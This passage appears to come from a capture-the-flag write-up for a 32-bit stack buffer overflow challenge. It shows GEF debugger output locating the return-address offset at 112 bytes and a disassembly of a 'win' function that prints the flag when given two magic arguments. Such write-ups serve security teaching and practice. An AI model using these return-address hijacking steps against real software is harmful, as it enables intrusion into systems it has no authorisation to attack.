 -  Determine the offset using `pattern offset` command:

```terminal
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```

- The offset to the return address is 112

2. Craft payload to reach `win` function.

- Determine the address of `win` function using `disas win` command:

```terminal
gef➤  disas win
Dump of assembler code for function win:
   0x08049296 <+0>:     endbr32
   0x0804929a <+4>:     push   ebp
   0x0804929b <+5>:     mov    ebp,esp
   0x0804929d <+7>:     push   ebx
   0x0804929e <+8>:     sub    esp,0x54
   0x080492a1 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x080492a6 <+16>:    add    ebx,0x2d5a
   0x080492ac <+22>:    sub    esp,0x8
   0x080492af <+25>:    lea    eax,[ebx-0x1ff8]
   0x080492b5 <+31>:    push   eax
   0x080492b6 <+32>:    lea    eax,[ebx-0x1ff6]
   0x080492bc <+38>:    push   eax
   0x080492bd <+39>:    call   0x8049160 <fopen@plt>
   0x080492c2 <+44>:    add    esp,0x10
   0x080492c5 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x080492c8 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x080492cc <+54>:    jne    0x80492f8 <win+98>
   0x080492ce <+56>:    sub    esp,0x4
   0x080492d1 <+59>:    lea    eax,[ebx-0x1fed]
   0x080492d7 <+65>:    push   eax
   0x080492d8 <+66>:    lea    eax,[ebx-0x1fd8]
   0x080492de <+72>:    push   eax
   0x080492df <+73>:    lea    eax,[ebx-0x1fa3]
   0x080492e5 <+79>:    push   eax
   0x080492e6 <+80>:    call   0x80490e0 <printf@plt>
   0x080492eb <+85>:    add    esp,0x10
   0x080492ee <+88>:    sub    esp,0xc
   0x080492f1 <+91>:    push   0x0
   0x080492f3 <+93>:    call   0x8049130 <exit@plt>
   0x080492f8 <+98>:    sub    esp,0x4
   0x080492fb <+101>:   push   DWORD PTR [ebp-0xc]
   0x080492fe <+104>:   push   0x40
   0x08049300 <+106>:   lea    eax,[ebp-0x4c]
   0x08049303 <+109>:   push   eax
   0x08049304 <+110>:   call   0x8049100 <fgets@plt>
   0x08049309 <+115>:   add    esp,0x10
   0x0804930c <+118>:   cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x08049313 <+125>:   jne    0x804932f <win+153>
   0x08049315 <+127>:   cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x0804931c <+134>:   jne    0x8049332 <win+156>
   0x0804931e <+136>:   sub    esp,0xc
   0x08049321 <+139>:   lea    eax,[ebp-0x4c]
   0x08049324 <+142>:   push   eax
   0x08049325 <+143>:   call   0x80490e0 <printf@plt>
   0x0804932a <+148>:   add    esp,0x10
   0x0804932d <+151>:   jmp    0x8049333 <win+157>
   0x0804932f <+153>:   nop
   0x08049330 <+154>:   jmp    0x8049333 <win+157>
   0x08049332 <+156>:   nop
```